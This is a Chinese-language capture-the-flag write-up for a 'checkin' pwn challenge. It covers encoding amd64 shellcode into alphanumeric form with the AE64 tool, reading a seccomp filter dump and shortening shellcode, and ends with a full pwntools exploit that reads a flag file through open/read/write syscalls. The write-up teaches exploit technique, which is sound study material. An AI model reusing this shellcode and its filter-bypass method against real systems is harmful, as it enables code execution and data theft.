





# checkin glibc 2.38
# AE64
[AE64](https://github.com/veritas501/ae64)

> AE64 is a tool which can transform any amd64 architecture shellcode into pure alphanumeric shellcode using self-modify code technology, so the page need to be writable.


- 适用于 64 位
- 原始 shellcode 允许包含空字节
- 使用 ae64 生成时的参数传递

```python
obj=AE64()
shellcode=(obj.encode(asm(shellcode),strategy="small",offset=0x34,register="rax"))
```
- 第一个参数是 shellcode 的机器码，可以包含空字节
- 第二个参数 small 表示生成尽可能短的 shellcode
- register 指的是这样一个寄存器：在该 shellcode 第一条指令即将执行时，它的值加上 offset 等于 shellcode 第一条指令的地址

# shellcode 之前的十六进制反汇编



# 按位取反
取反之后更容易理解
```c
    if ( (mmap_start_addr[i + 48] <= '`' || mmap_start_addr[i + 48] > 'z')
      && (mmap_start_addr[i + 48] <= '@' || mmap_start_addr[i + 48] > 'Z')
      && (mmap_start_addr[i + 48] <= '/' || mmap_start_addr[i + 48] > '9')
      && mmap_start_addr[i + 48] != '/' )
```
# 学到了几个单词 :smile:





#  填充长度以显示沙箱同时避免换行干扰


read 每次读一个字节，write 也是
#  1 也是 write

```bash
0014: 0x15 0x00 0x05 0x00000000  if (A != read) goto 0020
 0015: 0x20 0x00 0x00 0x00000010  A = fd # read(fd, buf, count)
 0016: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0020
 0017: 0x20 0x00 0x00 0x00000020  A = count # read(fd, buf, count)
 0018: 0x15 0x00 0x01 0x00000001  if (A != 0x1) goto 0020 
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x05 0x00000001  if (A != 1) goto 0026 # write

```

# 缩短 shellcode 长度
- 视情况可以不用 64 位寄存器，改用 32 位寄存器
- 注意函数执行完后是否还有可以继续利用的寄存器，比如 read() 执行完后第三个参数保持不变，write 就可以直接使用

# Bug
如果 jnz loop_write 后面没有指令，直接跟着 flag 的字符，就会莫名其妙地跳到一个奇怪的地方，但随便加一条指令比如 pop rax，跳转就正常了

# exp

```python
from pwn import *
from ae64 import AE64
context(arch='amd64', os='linux', log_level='debug')

shellcode="""
push r9
pop rdi
push 2
pop rax
syscall 
"""

shellcode='''

xor edi, edi
push 3 
pop rax
syscall

mov rdi, 0x2023012c
push 2 
pop rax
xor esi,esi
xor edx,edx
syscall
   
push rax
pop rdi
push 0x20230000
pop rsi
push 1
pop rdx
xor rax,rax
xor r8,r8
loop_read:
syscall
xor rax,rax
inc r8
inc rsi
cmp r8,0x40
jnz loop_read

xor r8,r8
push  1
pop rax
inc rdi
push 0x20230000
pop rsi
push 1
pop rdx

loop_write:
syscall
inc r8
inc rsi
cmp r8,0x40
jnz loop_write

push rax  
'''

get_addr_call_shellcode=asm(
'''
pop rax
pop rax
pop rax
pop rax
''')

obj=AE64()
shellcode=(obj.encode(asm(shellcode),strategy="small",offset=0x34,register="rax"))
s=process("./pwn_patched")
print(len(shellcode))
pause()
#gdb.attach(s,"b main")
s.send(get_addr_call_shellcode+shellcode+b"flag")
s.interactive()
```

